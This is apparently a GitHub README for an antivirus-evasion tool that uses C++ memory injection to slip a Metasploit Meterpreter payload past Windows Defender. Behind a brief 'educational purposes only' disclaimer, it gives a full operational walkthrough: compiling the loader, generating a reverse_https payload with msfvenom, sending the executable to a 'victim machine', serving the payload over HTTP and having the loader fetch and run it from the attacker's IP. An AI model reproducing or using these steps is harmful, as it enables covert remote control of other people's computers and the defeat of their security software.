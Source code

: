 <h1 align="center">💀Evade Windows AV💀</h1>

<br>

>This repository focuses on storing a memory injection code written in c++ in order to evade windows defender, also using a metasploit payload.
>

>
>Obs: These scripts are for educational purposes only. Use them at your own risk because I will not be responsible for your actions!

<br>

<p align="center">
	<img width="400" height="400" src="https://github.com/EndlssNightmare/BypassAV/blob/main/Fotos/metasploit-ascii-1-2.png">
</p>

<br>

<body>
   <h2 align="left"> Dependences:</h2>

<br>

  >
  >Create a SSL/TLS Certificate:<a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> SSL Certificate</a>
  >

  >
  >C/C++ Compiler:<a href="https://www.mingw-w64.org" > Mingw32</a>
  >

  >
  >Metasploit Framework:<a href="https://www.metasploit.com"> Metasploit Framework</a>>
  >
<br>

  <h2 align="left"> How to run the script:</h2>

<br>

Upgrade your apt package: `sudo apt update && sudo apt upgrade`

<br>

Install the C/C++ compiler: `apt-get install g++-mingw-w64-x86-64`

<br>

Compile the code: `x86_x64-w64-mingw32-g++ --static -o name.exe BypassAV.cpp -fpermissive -lsw2_32`

<br>

Create a SSL/TLS Certificate: `openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
-subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
-keyout www.example.com.key \
-out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt`

<br>

Create your own Metasploit configured payload: `msfvenom -p windows/x64/meterpreter/reverse_https lhost=yourip lport=port HandlerSSLCert=/home/kali/www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon.bin`

<br>

Send the executable file to the victim machine.

<br>

Set a listener on msfconsole: `msfconsole -r meta.rc`

<br>

Set a http listener to grab de beacon.bin with the executable on victim machine: `python -m http.server 8000`

<br>

On the executable, set your ip, the port of http server and the beacon.bin file: `./BypassAV.exe YOURIP HTTPPORT beacon.bin`

<br>

## References and Credits:
  
  <br>

  ><a href="https://github.com/TheD1rkMtr/Shellcode-Hide"> Repository reference.</a>
  >
  ><a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> Custom SSL/TSL Certificate.</a>
  >
  ><a href="https://www.youtube.com/@gemini_security"> Gemini Security</a>

  <br>
